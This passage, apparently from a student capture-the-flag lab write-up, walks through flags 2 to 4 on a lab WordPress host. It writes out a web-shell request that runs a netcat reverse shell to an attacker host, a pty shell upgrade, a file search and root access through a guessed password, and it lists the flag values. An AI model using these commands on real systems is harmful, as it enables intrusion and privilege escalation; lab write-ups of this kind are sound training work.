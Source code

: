 **Command:** `192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`

![](/24-Final-Project/ImagesProject/1-16.jpg)

Which succesfully establishes a connection:

![](/24-Final-Project/ImagesProject/1-17.jpg)

Running the following command will result in an Interactive User Shell opened on the Target.

**Command:** `python -c ‘import pty;pty.spawn(“/bin/bash”)’`

![](/24-Final-Project/ImagesProject/1-18.jpg)

Traversing the directories, we find flag 2, and can fiew it's contents:

![](/24-Final-Project/ImagesProject/1-19.jpg)

---

## Flag 3

- flag3.png: `flag3{a0f568aa9de277887f37730d71520d9b}`  
- Exploit Used:  
  - Used shell access on target to search WordPress uploads directory for `Flag 3`, discovered path location, and navigated to web browser to view `flag3.png`.  
- Commands:
  - **Command:** `find /var/www -type f -iname 'flag*'`  
  - **Path:** `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`  
  - **URL:** 192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

Used the find command to find flags in the WordPress uploads directory.  
**Command:** `find /var/www -type f -iname 'flag*'`
- `find` find files or directories in location specified
- `-type f` specify file types to be found
- `-iname` ignore case of filename `flag*` (* = wildcard)

![](/24-Final-Project/ImagesProject/1-20.jpg)

- Discovered `Flag 3` location path is `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`  
- In web browser navigated to `192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`  

![](/24-Final-Project/ImagesProject/1-21.jpg)

---

## Flag 4

- flag4.txt: `flag4{df2bc5e951d91581467bb9a2a8ff4425}` 
- Exploits:
  - All previous exploits
  - Weak passwords that can be guessed
  - Lack of authorisation preventing access to directories and confidential information
- Commands:
  - `su root` switch to root user
  - Manual bruteforce password `toor`
  - `cd root` traverse directories
  - `ls -al` list files in directory
  - `cat flag4.txt` displays confidential inforamtion

![](/24-Final-Project/ImagesProject/1-22.jpg)

![](/24-Final-Project/ImagesProject/1-23.jpg)
